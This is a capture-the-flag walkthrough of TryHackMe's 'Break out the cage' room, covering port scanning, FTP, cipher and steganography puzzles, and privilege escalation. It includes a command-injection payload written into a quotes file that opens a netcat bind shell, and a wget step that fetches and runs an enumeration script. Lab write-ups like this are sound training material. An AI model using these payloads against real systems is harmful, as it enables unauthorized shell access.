









# Overview
Machine : [Break out the cage](https://tryhackme.com/room/breakoutthecage1)

Platform : [TryHackMe](tryhackme.com)

Difficulty : easy

Category : cryptography , Linux 
# Enumeration

Doing nmap to enumerate open ports with service running on it.

```bash
nmap -p- -Pn -T4 -sS -sC 10.130.191.100
```

**Nmap Result**
```
Nmap scan report for 10.130.191.100
Host is up (0.00012s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             396 May 25  2020 dad_tasks
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.130.94.72
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dd:fd:88:94:f8:c8:d1:1b:51:e3:7d:f8:1d:dd:82:3e (RSA)
|   256 3e:ba:38:63:2b:8d:1c:68:13:d5:05:ba:7a:ae:d9:3b (ECDSA)
|_  256 c0:a6:a3:64:44:1e:cf:47:5f:85:f6:1f:78:4c:59:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Nicholas Cage Stories
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

We can see that there is an opened FTP server inside it we can connect with default credentials:
- username: ftp
- password: ftp

```bash
ftp 10.130.191.100
```

Then switch to binary mode then download `dad_tasks`:

```
ftp> type binary
200 Switching to Binary mode.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             396 May 25  2020 dad_tasks
226 Directory send OK.
ftp> get dad_tasks
local: dad_tasks remote: dad_tasks
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for dad_tasks (396 bytes).
226 Transfer complete.
396 bytes received in 0.07 secs (5.4816 kB/s)
ftp> ^Z
[1]+  Stopped                 ftp 10.130.191.100
root@ip-10-130-94-72:~# cat dad_tasks 
UWFwdyBFZWtjbCAtIFB2ciBSTUtQLi4uWFpXIFZXVVIuLi4gVFRJIFhFRi4uLiBMQUEgWlJHUVJPISEhIQpTZncuIEtham5tYiB4c2kgb3d1b3dnZQpGYXouIFRtbCBma2ZyIHFnc2VpayBhZyBvcWVpYngKRWxqd3guIFhpbCBicWkgYWlrbGJ5d3FlClJzZnYuIFp3ZWwgdnZtIGltZWwgc3VtZWJ0IGxxd2RzZmsKWWVqci4gVHFlbmwgVnN3IHN2bnQgInVycXNqZXRwd2JuIGVpbnlqYW11IiB3Zi4KCkl6IGdsd3cgQSB5a2Z0ZWYuLi4uIFFqaHN2Ym91dW9leGNtdndrd3dhdGZsbHh1Z2hoYmJjbXlkaXp3bGtic2lkaXVzY3ds
```

This seems like encoded text. I will try to decode it from base64 using [cyberchef](https://gchq.github.io/CyberChef/#ieol=CRLF&oeol=CRLF) and we found that:

```
Qapw Eekcl - Pvr RMKP...XZW VWUR... TTI XEF... LAA ZRGQRO!!!!
Sfw. Kajnmb xsi owuowge
Faz. Tml fkfr qgseik ag oqeibx
Eljwx. Xil bqi aiklbywqe
Rsfv. Zwel vvm imel sumebt lqwdsfk
Yejr. Tqenl Vsw svnt "urqsjetpwbn einyjamu" wf.

Iz glww A ykftef.... Qjhsvbouuoexcmvwkwwatfllxughhbbcmydizwlkbsidiuscwl
```

This seems like it is a [vigenere cipher](https://en.wikipedia.org/wiki/Vigen%C3%A8re_cipher) because of the pattern in `Qapw Eekcl - Pvr RMKP` (similar structure to "Dads Tasks - The RAGE"). 

Anyway, we will do directory enumeration with gobuster tool:

```bash
gobuster dir -u "http://10.130.191.100/" -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 64
```

**Gobuster result**
```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.130.191.100/
[+] Method:                  GET
[+] Threads:                 64
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/html                 (Status: 301) [Size: 315] [--> http://10.130.191.100/html/]
/images               (Status: 301) [Size: 317] [--> http://10.130.191.100/images/]
/scripts              (Status: 301) [Size: 318] [--> http://10.130.191.100/scripts/]
/contracts            (Status: 301) [Size: 320] [--> http://10.130.191.100/contracts/]
/auditions            (Status: 301) [Size: 320] [--> http://10.130.191.100/auditions/]
/server-status        (Status: 403) [Size: 279]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

After investigating those directories, we found an mp3 file with name `practice_corrupt`. So I'll search about these corrupt files.



After some searching, we found that this file uses [audio steganography](https://medium.com/@AungKyawZall/audio-steganography-39f9fb6d9330). This article clarifies how to use spectrogram form to find hidden messages inside this file. Download the file and put it inside [Audacity](https://www.audacityteam.org/download/windows/) and upload the downloaded file inside it.



Change to spectrogram:



**BANG we found the secret!** The spectrogram view reveals the text "namelesstow" hidden in the audio frequencies.

Now we have the full image, we have the vigenere cipher, and "namelesstow" seems like the key to decrypt. Now using [vigenere decoder](https://cryptii.com/pipes/vigenere-cipher/) we found this message:

```
Dads Tasks - The RAGE...THE CAGE... THE MAN... THE LEGEND!!!!
One. Revamp the website
Two. Put more quotes in script
Three. Buy bee pesticide
Four. Help him with acting lessons
Five. Teach Dad what "information security" is.

In case I forget.... Mydadisgxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxirejokes
```

## Flag 1

Password is `Mydadisgxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxirejokes`

# Initial Access

We will use this password to login to SSH with username `weston` with the password we found.



# Privilege Escalation

## Enumeration

We can download a script for enumeration. First, we need to find a writable directory to download the script:

```bash
find . -writable -ls -user weston 2>/dev/null
```

I found `/dev/shm` which is writable, so I downloaded the script inside it:

```bash
wget http://10.130.94.72:9999/LinEnum.sh
chmod 777 LinEnum.sh
./LinEnum
```

We found files in group `cage` which we can write inside:

```bash
weston@national-treasure:/home$ find / -group cage 2>/dev/null -ls
  1054789      4 drwx------   7 cage     cage         4096 May 26  2020 /home/cage
   655366      4 drwxr-xr-x   3 cage     cage         4096 May 26  2020 /opt/.dads_scripts
   655663      4 -rwxr--r--   1 cage     cage          255 May 26  2020 /opt/.dads_scripts/spread_the_quotes.py
   655659      4 drwxrwxr-x   2 cage     cage         4096 May 25  2020 /opt/.dads_scripts/.files
   655661      8 -rwxrw----   1 cage     cage         4204 May 25  2020 /opt/.dads_scripts/.files/.quotes
```

After investigating them, we found that the Python script inside `/opt/.dads_scripts/spread_the_quotes.py` executes quotes from the `.quotes` file:

```python
#!/usr/bin/env python

#Copyright Weston 2k20 (Dad couldnt write this with all the time in the world!)
import os
import random

lines = open("/opt/.dads_scripts/.files/.quotes").read().splitlines()
quote = random.choice(lines)
os.system("wall " + quote)
```

**Vulnerability Explanation:** This script is vulnerable to command injection because it uses `os.system()` with unsanitized user-controlled input from the `.quotes` file. The `wall` command concatenates the quote directly, allowing us to inject shell commands using shell metacharacters like `;`.

So, I will inject code inside it:

```bash
weston@national-treasure:/opt/.dads_scripts/.files$ echo '[+]connected;rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc -l 0.0.0.0 9000 > /tmp/f' > .quotes
```

Then wait until this Python script runs again (likely via cron job or periodic execution). The line:

```python
os.system("wall " + quote)
```

will execute our bind shell as the `quote` variable. After waiting, now you can catch the shell:

```bash
attacker$ nc 10.130.181.212 9000
```

Now we have a shell with the `cage` user:



I found a directory under the name `email_backup` which has 3 emails.

**email_1**
```
From - SeanArcher@BigManAgents.com
To - Cage@nationaltreasure.com

Hey Cage!

There's rumours of a Face/Off sequel, Face/Off 2 - Face On. It's supposedly only in the
planning stages at the moment. I've put a good word in for you, if you're lucky we 
might be able to get you a part of an angry shop keeping or something? Would you be up
for that, the money would be good and it'd look good on your acting CV.

Regards

Sean Archer
```

**email_2**
```
From - Cage@nationaltreasure.com
To - SeanArcher@BigManAgents.com

Dear Sean

We've had this discussion before Sean, I want bigger roles, I'm meant for greater things.
Why aren't you finding roles like Batman, The Little Mermaid(I'd make a great Sebastian!),
the new Home Alone film and why oh why Sean, tell me why Sean. Why did I not get a role in the
new fan made Star Wars films?! There was 3 of them! 3 Sean! I mean yes they were terrible films.
I could of made them great... great Sean.... I think you're missing my true potential.

On a much lighter note thank you for helping me set up my home server, Weston helped too, but
not overally greatly. I gave him some smaller jobs. Whats your username on here? Root?

Yours

Cage
```

Cage seems like a greedy employee who needs more privileges, but he teaches us that Sean is the boss.

**email_3**
```
From - Cage@nationaltreasure.com
To - Weston@nationaltreasure.com

Hey Son

Buddy, Sean left a note on his desk with some really strange writing on it. I quickly wrote
down what it said. Could you look into it please? I think it could be something to do with his
account on here. I want to know what he's hiding from me... I might need a new agent. Pretty
sure he's out to get me. The note said:

haiinspsyanileph

The guy also seems obsessed with my face lately. He came him wearing a mask of my face...
was rather odd. Imagine wearing his ugly face.... I wouldnt be able to FACE that!! 
hahahahahahahahahahahahahahahaahah get it Weston! FACE THAT!!!! hahahahahahahhaha
ahahahhahaha. Ahhh Face it... he's just odd. 

Regards

The Legend - Cage
```

There is cryptic plaintext and references to faces. It seems like the same cipher we used to decrypt `weston`'s password. The hint "FACE" is mentioned multiple times, suggesting it's the Vigenere cipher key. Using the same website with key "face", we found understandable text:



Sure enough, this is the root password. Let's try it:



It worked!

# Action on Object

User flag inside `Super_Duper_Checklist`:



Root flag:


